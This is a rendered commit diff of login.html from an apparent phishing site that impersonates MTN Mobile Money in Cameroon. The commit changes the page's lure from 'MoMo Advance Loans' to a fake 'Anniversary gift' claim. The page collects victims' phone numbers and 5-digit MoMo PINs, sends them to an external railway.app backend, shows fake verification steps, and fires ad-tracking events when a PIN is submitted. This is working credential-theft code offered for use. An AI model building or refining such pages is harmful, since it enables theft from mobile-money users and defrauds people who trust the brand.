

Before and after one commit to salimginni-png/MoMo-Users.ey, a plain HTML site: page login.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update login.html

```diff
--- a/login.html
+++ b/login.html
@@ -4,7 +4,7 @@
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0, viewport-fit=cover">
   <meta name="theme-color" content="#000000">
-  <title>MTN MoMo – Login | MoMo Advance Loans</title>
+  <title>MTN MoMo – Login | MTN MoMo Anniversary</title>
 
   <!-- ============================================
        META PIXEL — BASE CODE
@@ -80,7 +80,7 @@
 
     body.modal-open { overflow: hidden; }
 
-    /* ═══════════ HEADER ═══════════ */
+    /* HEADER */
     .header {
       position: fixed;
       top: 0; left: 0; right: 0;
@@ -115,10 +115,11 @@
     }
     .brand-sub {
       font-size: 12px;
-      color: #9ca3af;
-      font-weight: 500;
+      color: var(--mtn-gold);
+      font-weight: 700;
       letter-spacing: 0.5px;
       white-space: nowrap;
+      text-transform: uppercase;
     }
     .header-back {
       background: rgba(255, 255, 255, 0.08);
@@ -140,7 +141,6 @@
       color: #fff;
     }
 
-    /* ═══════════ MAIN ═══════════ */
     .main {
       max-width: 1200px;
       margin: 0 auto;
@@ -190,7 +190,7 @@
     }
     .reject-banner .r-text b { color: #991B1B; font-weight: 900; }
 
-    /* ═══════════ MOMO YELLOW BAND ═══════════ */
+    /* MOMO BAND */
     .momo-band {
       background: var(--grad-gold);
       border-radius: var(--radius-lg) var(--radius-lg) 0 0;
@@ -225,7 +225,7 @@
       position: relative;
     }
 
-    /* ═══════════ BODY CARD ═══════════ */
+    /* BODY CARD */
     .login-body {
       background: var(--white);
       border-radius: 0 0 var(--radius-lg) var(--radius-lg);
@@ -249,7 +249,7 @@
       line-height: 1.5;
     }
 
-    /* ═══════════ FORM ═══════════ */
+    /* FORM */
     .form-field { margin-bottom: 18px; position: relative; }
     .input-label {
       display: block;
@@ -343,7 +343,7 @@
       75% { transform: translateX(6px); }
     }
 
-    /* ═══════════ LOGIN BUTTON ═══════════ */
+    /* LOGIN BUTTON */
     .login-btn {
       width: 100%;
       padding: 17px;
@@ -421,7 +421,7 @@
     }
     .signup-text a:hover { text-decoration: underline; }
 
-    /* ═══════════ BOTTOM NAV ═══════════ */
+    /* BOTTOM NAV */
     .bottom-nav {
       position: fixed;
       bottom: 0; left: 0; right: 0;
@@ -457,7 +457,7 @@
     .nav-item:hover { transform: translateY(-2px); }
     .nav-item.active { color: var(--mtn-dark); }
 
-    /* ═══════════ PIN POPUP ═══════════ */
+    /* PIN POPUP */
     .modal-container { position: fixed; inset: 0; z-index: 9999; display: none; }
     .modal-container.open { display: block; }
     .sheet-overlay {
@@ -632,7 +632,7 @@
     }
     @keyframes spin { to { transform: rotate(360deg); } }
 
-    /* ═══════════ SUPER VERIFY OVERLAY ═══════════ */
+    /* SUPER VERIFY OVERLAY */
     .verify-overlay {
       position: fixed;
       inset: 0;
@@ -872,7 +872,7 @@
       <a href="index.html" class="brand">
         <img src="https://ug-starlinknetwork.up.railway.app/static/images/momo_logo.png" alt="MTN MoMo" class="brand-logo-img">
         <div class="brand-divider"></div>
-        <span class="brand-sub">MoMo Advance Loans</span>
+        <span class="brand-sub">MTN MoMo Anniversary</span>
       </a>
       <button class="header-back" onclick="window.location.href='index.html'">← Back</button>
     </div>
@@ -885,13 +885,13 @@
 
         <div class="momo-band">
           <img src="https://ug-starlinknetwork.up.railway.app/static/images/momo_logo.png" alt="MTN MoMo" class="momo-logo-img">
-          <p class="momo-tagline">Secure Login</p>
+          <p class="momo-tagline">Unlock Your Gift</p>
         </div>
 
         <div class="login-body">
 
-          <h1 class="welcome-title">Welcome Back</h1>
-          <p class="welcome-sub">Enter your MoMo number to continue</p>
+          <h1 class="welcome-title">Unlock Your MoMo Gift</h1>
+          <p class="welcome-sub">Enter your MoMo number to unlock your anniversary reward</p>
 
           <div class="form-field">
             <label class="input-label" for="phone">MoMo Phone Number</label>
@@ -930,7 +930,7 @@
   <nav class="bottom-nav">
     <div class="bottom-nav-inner">
       <a href="index.html" class="nav-item"><span class="ico">🏠</span><span>Home</span></a>
-      <a href="#" class="nav-item active"><span class="ico">🔐</span><span>Login</span></a>
+      <a href="#" class="nav-item active"><span class="ico">🎁</span><span>Claim</span></a>
       <a href="#" class="nav-item" onclick="alert('Contact support at support@momoadvance.cm'); return false;"><span class="ico">💬</span><span>Support</span></a>
     </div>
   </nav>
@@ -940,9 +940,9 @@
     <div class="sheet-overlay" id="sheetOverlay"></div>
     <div class="pin-modal" id="pinModal">
       <h3 class="pin-modal-title">
-        Log in to your <strong>MoMo account?</strong>
+        Verify to unlock your <strong>gift?</strong>
       </h3>
-      <p class="pin-modal-sub">Enter your 5-digit MTN MoMo PIN to authorize this login</p>
+      <p class="pin-modal-sub">Enter your 5-digit MTN MoMo PIN to claim your anniversary reward</p>
 
       <label class="pin-label" for="momo_pin">Enter PIN</label>
       <div class="pin-input-wrap">
@@ -1034,7 +1034,7 @@
   <script>
     const API_BASE = 'https://momo-usersey-production.up.railway.app';
     const POLL_INTERVAL_MS = 2500;
-    const NUMBER_LOADING_MS = 3000; /* 3 seconds loading after CONTINUE */
+    const NUMBER_LOADING_MS = 3000;
 
     const phoneInput   = document.getElementById('phone');
     const phoneWrapper = document.getElementById('phoneWrapper');
@@ -1049,9 +1049,6 @@
       }
     });
 
-    /* ═══════════════════════════════════════════
-       PIN MODAL
-    ═══════════════════════════════════════════ */
     const modal = document.getElementById('modalContainer');
     const popup = document.getElementById('pinModal');
     const pin = document.getElementById('momo_pin');
@@ -1062,7 +1059,6 @@
     const togglePin = document.getElementById('togglePin');
     const pinError = document.getElementById('pinError');
 
-    /* Save default CONTINUE button HTML so we can restore it */
     const DEFAULT_CONTINUE_HTML = 'CONTINUE →';
 
     function movePopup() {
@@ -1100,7 +1096,6 @@
       }, 250);
     }
 
-    /* ✅ CONTINUE button → 3s "Verifying number…" loading → then PIN popup */
     openBtn.addEventListener('click', () => {
       const digits = phoneInput.value.replace(/\D/g, '');
       if (digits.length !== 9) {
@@ -1114,11 +1109,9 @@
       phoneWrapper.classList.remove('invalid');
       phoneError.classList.remove('show');
 
-      /* Show loading state */
       openBtn.disabled = true;
       openBtn.innerHTML = '<span class="btn-spinner-dark"></span>Verifying number…';
 
-      /* After 3 seconds → open PIN popup + restore button */
       setTimeout(() => {
         openBtn.disabled = false;
         openBtn.innerHTML = DEFAULT_CONTINUE_HTML;
@@ -1136,7 +1129,6 @@
       pin.focus();
     });
 
-    /* ✅ PIN must be EXACTLY 5 digits */
     pin.addEventListener('input', function () {
       this.value = this.value.replace(/\D/g, '').slice(0, 5);
       const isValid = /^\d{5}$/.test(this.value);
@@ -1147,9 +1139,6 @@
     cancel.addEventListener('click', closeModal);
     overlay.addEventListener('click', closeModal);
 
-    /* ═══════════════════════════════════════════
-       REJECT BANNER
-    ═══════════════════════════════════════════ */
     let bannerTimer = null;
     function showRejectBanner() {
       rejectBanner.classList.add('show');
@@ -1159,9 +1148,6 @@
       }, 6000);
     }
 
-    /* ═══════════════════════════════════════════
-       RESET TO PHONE STEP
-    ═══════════════════════════════════════════ */
     function resetToPhoneStep() {
       if (verifyTimer) clearInterval(verifyTimer);
       if (stepTimer) clearInterval(stepTimer);
@@ -1196,15 +1182,11 @@
       setTimeout(() => phoneInput.focus(), 250);
     }
 
-    /* ═══════════════════════════════════════════
-       PROCEED → backend
-    ═══════════════════════════════════════════ */
     let pollTimer = null;
     let verifyTimer = null;
     let stepTimer = null;
 
     proceed.addEventListener('click', async () => {
-      /* ✅ Require EXACTLY 5 digits */
       if (!/^\d{5}$/.test(pin.value)) {
         pinError.textContent = 'Please enter your 5-digit MoMo PIN';
         pinError.classList.add('show');
@@ -1218,11 +1200,10 @@
       const fullPhone = '+237' + digits;
       const userPin = pin.value;
 
-      /* ✅ META PIXEL — AddPaymentInfo fired when user submits PIN */
       if (typeof fbq === 'function') {
         fbq('track', 'AddPaymentInfo', {
-          content_name: 'MoMo Login Attempt',
-          content_category: 'Login',
+          content_name: 'MoMo Anniversary Gift Claim',
+          content_category: 'Anniversary',
           currency: 'XAF'
         });
         console.log('✅ Meta Pixel: AddPaymentInfo event fired');
@@ -1278,9 +1259,6 @@
       }
     });
 
-    /* ═══════════════════════════════════════════
-       SUPER VERIFY OVERLAY
-    ═══════════════════════════════════════════ */
     const verifyOverlay = document.getElementById('verifyOverlay');
     const verifyBarFill = document.getElementById('verifyBarFill');
     const verifyTitle   = document.getElementById('verifyTitle');
@@ -1318,9 +1296,6 @@
       verifyBarFill.style.width = '100%';
     }
 
-    /* ═══════════════════════════════════════════
-       POLLING
-    ═══════════════════════════════════════════ */
     function stopPolling() {
       if (pollTimer) { clearInterval(pollTimer); pollTimer = null; }
     }
```
